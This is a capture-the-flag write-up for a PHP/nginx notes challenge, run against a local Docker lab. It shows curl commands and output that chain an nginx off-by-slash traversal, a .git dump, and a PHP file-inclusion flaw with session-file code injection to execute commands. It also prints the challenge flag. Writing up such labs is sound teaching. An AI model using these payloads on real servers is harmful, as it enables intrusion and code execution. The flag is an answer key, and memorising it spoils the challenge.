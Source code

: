 # Micro notes

## Summary

Flag: `UAD360{Ng1nX_Ft_Lf1-S3sS10n_1}`

Description: We have hired a new employee, even though he likes PHP. We have asked him to make a website for a client with microservices that is all the rage.

Hint: To get flag execute `/readflag`

Run: `REACT_APP_BACKEND_URL=http://localhost docker compose up --build`

## Write-up

We can create and deletes on the website, here is how it looks like:

![landpage](img/landpage.png)

If we look at the requests it makes, there is an endpoint `/api/note.php`. Moreover, it seems that there are two different servers:

The root page seems like a nginx serving an Express page:
```
curl -v http://localhost/
*   Trying ::1:80...
* Connected to localhost (::1) port 80 (#0)
> GET / HTTP/1.1
> Host: localhost
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.21.6
< Date: Sun, 22 May 2022 20:37:03 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 1614
< Connection: keep-alive
< X-Powered-By: Express
< Access-Control-Allow-Origin: *
< Access-Control-Allow-Methods: *
< Access-Control-Allow-Headers: *
< Accept-Ranges: bytes
< ETag: W/"64e-5sdfSD1Jewe13U6wLLZHrH/0g/Q"
< Vary: Accept-Encoding
<
```

On the other hand the api seems like an Apache:
```
curl -v http://localhost/api/
*   Trying ::1:80...
* Connected to localhost (::1) port 80 (#0)
> GET /api/ HTTP/1.1
> Host: localhost
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< Server: nginx/1.21.6
< Date: Sun, 22 May 2022 20:38:53 GMT
< Content-Type: text/html; charset=iso-8859-1
< Content-Length: 272
< Connection: keep-alive
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at backend Port 80</address>
</body></html>
* Connection #0 to host localhost left intact
```

We can conclude that there is an nginx proxy redirecting connections to different servers. Checking most common [Nginx missconfigurations]((https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)) looks like it's vulnerable to "Off by slash" with `http://localhost/api../` because it returns apache index page.

Knowing that we enumerate hidden directories until we find `.git`. Using [git dumper](https://github.com/arthaud/git-dumper) we get the source code of the api:
```
python3 git_dumper.py http://localhost/api../.git ./api
```

Doing some code review we find a parameter vulnerable to LFI:
```php
function getIndex($id)
{
    $file = getenv('NOTES_DIR') . $id;
    
    if(!file_exists($file))
    {
        return ["error" => "Could not find that note"];
    } 

    $note = file_get_contents($file);
    
    /* I always thought that making it modular was cool */
    if(isset($_GET['filter']))
    {
        include(__DIR__ . '/custom_filters/' . $_GET['filter']);
        $note = content_filter($note);
    }

    return ["message" => "Note retrieved successfully", "content" => $note];
}
```

We need to upgrade to RCE from LFI. However we can't do log poisoning because how docker logs work.

Luckily there is another endpoint we can use to inject arbitrary content into our session.

With all that we just need to exploit it.

* First we need to create a note:
    ```
    curl -X POST -d '{"content": "foo"}' http://localhost/api/note.php
    {"id":"dce0e9145c9e422cd43878ae0032ab24","message":"Note created at successfully"}
    ```

* Then we inject PHP code in the session:
    ```
    curl -v "http://localhost/api/set_theme.php?theme=<?php+system('/readflag');?>"
    *   Trying ::1:80...
    * Connected to localhost (::1) port 80 (#0)
    > GET /api/set_theme.php?theme=<?php+system('/readflag');?> HTTP/1.1
    > Host: localhost
    > User-Agent: curl/7.74.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Server: nginx/1.21.6
    < Date: Sun, 22 May 2022 20:51:10 GMT
    < Content-Type: text/html; charset=UTF-8
    < Content-Length: 0
    < Connection: keep-alive
    < X-Powered-By: PHP/7.2.34
    < Set-Cookie: PHPSESSID=f976c3501e1f52f9ca042cae167a8867; path=/
    < Expires: Thu, 19 Nov 1981 08:52:00 GMT
    < Cache-Control: no-store, no-cache, must-revalidate
    < Pragma: no-cache
    < 
    * Connection #0 to host localhost left intact
    ```
* Lastly we execute the payload including both the note id and our session file which is located by default on `/tmp`:
    ```
    curl 'http://localhost/api/note.php?id=dce0e9145c9e422cd43878ae0032ab24&filter=../../../../../../../../tmp/sess_f976c3501e1f52f9ca042cae167a8867'
    theme|s:28:"UAD360{Ng1nX_Ft_Lf1-S3sS10n_1}";<br />
    <b>Fatal error</b>:  Uncaught Error: Call to undefined function content_filter() in /var/www/html/api/note.php:21
    Stack trace:
    #0 /var/www/html/api/note.php(78): getIndex('dce0e9145c9e422...')
    #1 {main}
    thrown in <b>/var/www/html/api/note.php</b> on line <b>21</b><br />
    ```